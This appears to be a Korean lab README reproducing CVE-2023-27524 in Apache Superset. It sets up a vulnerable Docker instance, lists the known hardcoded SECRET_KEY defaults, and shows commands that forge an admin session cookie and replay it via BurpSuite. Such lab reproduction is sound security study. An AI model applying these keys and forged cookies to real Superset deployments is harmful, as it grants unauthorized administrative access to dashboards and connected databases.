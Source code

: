 ## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)

Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.

### 환경 설정

```bash
git clone --depth 1 https://github.com/{repositry}.git
cd {repositry}/superset/CVE-2023-27524
```

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다
```bash
docker compose up -d
```
---

### 취약점 재생산
![로그인페이지](login.png)

firefox에서 `http://your-ip:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py](CVE-2023-27524.py)를사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

![관리자 쿠키](cookie.png)

쿠키 값에 위의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```
![변조 후](admin.png)


요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

![성공](backend.png)

---
### URL

- GitHub repo : https://github.com/ggam-yong/ch-vulhub/tree/main/superset/CVE-2023-27524
- Pull request :




